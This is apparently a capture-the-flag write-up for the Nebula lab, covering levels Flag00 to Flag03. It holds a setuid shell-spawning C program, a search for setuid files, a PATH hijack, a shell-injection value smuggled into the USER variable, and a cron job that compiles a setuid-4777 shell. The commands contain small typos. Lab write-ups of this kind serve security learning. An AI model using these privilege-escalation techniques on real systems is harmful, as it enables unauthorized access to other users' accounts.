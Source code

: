 # Nebula

## ShellMiniCode

```c
#include <unistd.h>
#include <stdlib.h>
int main(){
	gid_t g = getegid();
	uid_t u = geteuid();
	setresgid(g,g,g);
	setresuid(u,u,u);
	system("/bin/bash");
}
```

## Flag00 (FIND)

```bash
find / -user flag00 -perm -4000 2> /dev/nullcd 
# perm -4000  → **Match inclusivo**: i file devono avere **almeno** il bit `4000` impostato (altri bit sono accettati)
# perm 4000 → **Match esatto**: i file devono avere **solo** il bit `4000` (setuid) **e nessun altro permesso**
```

---

## Flag01 (PATH)

```bash
echo "/bin/sh" > /tmp/echo
chmod 777 /tmp/echo
export PATH=/tmp:$PATH
./flag01
```

---

## Flag02 (USER)

```bash
export USER="; /bin/bash #"
./flag02
```

---

## Flag03 (CRONTAB)

```bash
# scrivo shell.c in /tmp
# in writable.d creo run.sh:
	gcc -o /home/flag03/level03 /tmp/shell.c
	# deve essere per forza in /home/flag03
	chmod 4777 /home/flag/03/level03
# dopo 2 min nella shell:
./shell
```

---